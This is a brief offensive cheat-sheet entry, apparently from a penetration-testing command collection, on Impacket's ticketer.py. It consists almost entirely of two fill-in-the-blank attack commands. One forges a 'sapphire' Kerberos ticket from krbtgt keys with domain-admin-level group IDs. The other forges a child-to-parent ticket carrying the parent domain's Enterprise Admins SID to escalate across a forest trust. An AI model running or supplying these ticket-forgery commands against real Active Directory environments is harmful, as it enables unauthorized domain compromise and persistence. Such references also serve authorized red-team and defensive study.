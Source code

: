# Ticketer
#plateform/linux #target/remote #cat/ATTACK


## Ticketer with sapphire ticket
```
ticketer.py -request -domain "<domain>" -user "<user>" 
-password "<password>" -nthash '<krbtgt/service NT hash>' -aesKey '<krbtgt/service AES key>' -domain-sid '<DOMAIN_SID_HERE>' -user-id '1337' -groups '512,513,518,519,520' '<target>'
```

## Ticketer for child to parent
```
ticketer.py -aesKey '<child_krbtgt_aeskey>' -domain <CHILD_DOMAIN_NAME> -domain-sid <YOUR_DOMAIN_SID> -extra-sid <TARGET_DOMAIN_HERE>-519 Administrator -user-id 500
```
